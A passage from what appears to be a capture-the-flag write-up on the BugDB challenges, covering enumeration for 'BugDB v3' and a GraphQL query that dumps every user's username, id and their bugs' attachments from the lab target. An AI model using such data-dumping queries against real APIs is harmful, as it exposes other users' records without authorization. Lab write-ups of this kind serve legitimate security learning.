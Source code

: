 ![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJ4uMnp7WL5D4zeIFx%2F-MfJIXGNwRdAq6eEX8OB%2F6.png?alt=media&token=200bac84-12ef-4159-84d8-57580bd45406)

and the flag is here!

‌
## **BugDB v3**

Moving to the last one which seem to be a bit difficult than the others. let's begin:

### **Enumeration**

Let's collect all the needed information as we did before:

![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJnCVcv1mgkXDecBC0%2F1.png?alt=media&token=1a7d28cb-8aab-4d01-b4de-cf73b496e627)

![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJnGJr9_UxcxihTdQ0%2F2.png?alt=media&token=62d07e31-ea00-43a2-ab84-1dcd5e0956b0)

### **Dumping Data**
It seems that there is a new columns here called ***attachments** *let's dump all:
```graphql
query {
  allUsers {
    edges{
      node{
        username
        id
      }
    }
    edges {
      node {
        id
        bugs{
          edges{
            node{
              attachments{
                edges{
                  node{
                    filename
                    id
                    bugId
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```
![](https://gblobscdn.gitbook.com/assets%2F-MeU8PSC8pJwv8a582oA%2F-MfJIh2UiuMv6GZ7xGwB%2F-MfJnJC47uSMZ3ehgWjX%2F3.png?alt=media&token=71c2f5d8-22d1-4656-bb02-aca276b396ce)

